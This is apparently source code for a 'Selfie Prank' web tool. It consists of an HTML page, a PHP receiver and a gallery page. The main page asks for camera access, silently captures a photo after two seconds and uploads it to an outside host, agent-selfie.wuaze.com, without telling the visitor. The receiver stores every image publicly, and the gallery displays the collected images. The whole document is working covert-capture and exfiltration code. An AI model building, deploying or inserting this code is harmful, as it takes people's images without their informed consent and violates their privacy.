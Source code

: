 <!-- === scanner.html === -->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Selfie Prank</title>
</head>
<body>
  <h2>Smile for the camera 😄</h2>
  <video id="video" autoplay playsinline width="320" height="240"></video>
  <canvas id="canvas" style="display:none;"></canvas>
  <script>
    const video = document.getElementById('video');
    const canvas = document.getElementById('canvas');
    const context = canvas.getContext('2d');

    navigator.mediaDevices.getUserMedia({ video: true })
      .then(stream => {
        video.srcObject = stream;

        setTimeout(() => {
          canvas.width = video.videoWidth;
          canvas.height = video.videoHeight;
          context.drawImage(video, 0, 0, canvas.width, canvas.height);
          const imageDataURL = canvas.toDataURL('image/png');

          fetch('https://agent-selfie.wuaze.com/receiver.php', {
            method: 'POST',
            headers: {
              'Content-Type': 'application/json'
            },
            body: JSON.stringify({ image: imageDataURL })
          })
          .then(res => res.text())
          .then(data => console.log('Uploaded:', data))
          .catch(err => console.error('Upload failed:', err));

        }, 2000); // capture after 2 seconds
      })
      .catch(error => console.error('Camera access denied:', error));
  </script>
</body>
</html>


<!-- === receiver.php === -->
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Methods: POST, OPTIONS");
header("Access-Control-Allow-Headers: Content-Type");

if ($_SERVER['REQUEST_METHOD'] === 'OPTIONS') {
    http_response_code(204);
    exit;
}

$data = json_decode(file_get_contents("php://input"), true);
if (!isset($data['image'])) {
    http_response_code(400);
    echo "Missing image data.";
    exit;
}

$imageData = $data['image'];
if (preg_match('/^data:image\/(\w+);base64,/', $imageData, $type)) {
    $type = strtolower($type[1]);
    $imageData = substr($imageData, strpos($imageData, ',') + 1);
    $imageData = base64_decode($imageData);

    if ($imageData === false) {
        http_response_code(400);
        echo "Image decode failed.";
        exit;
    }

    $folder = __DIR__ . '/uploads';
    if (!is_dir($folder)) {
        mkdir($folder, 0755, true);
    }

    $filename = uniqid('selfie_', true) . '.' . $type;
    file_put_contents($folder . '/' . $filename, $imageData);

    echo "Saved as $filename";
} else {
    http_response_code(400);
    echo "Invalid image format.";
}
?>


<!-- === gallery.html (optional) === -->
<!DOCTYPE html>
<html>
<head>
  <title>Selfie Gallery</title>
</head>
<body>
  <h1>Gallery of Selfies</h1>
  <div id="gallery"></div>

  <script>
    fetch('https://agent-selfie.wuaze.com/uploads/')
      .then(response => response.text())
      .then(html => {
        const parser = new DOMParser();
        const doc = parser.parseFromString(html, 'text/html');
        const links = [...doc.querySelectorAll('a')];
        const images = links.filter(link => link.href.match(/\.(jpg|jpeg|png)$/i));

        const gallery = document.getElementById('gallery');
        images.forEach(img => {
          const image = document.createElement('img');
          image.src = img.href;
          image.width = 160;
          image.style.margin = '5px';
          gallery.appendChild(image);
        });
      });
  </script>
</body>
</html>
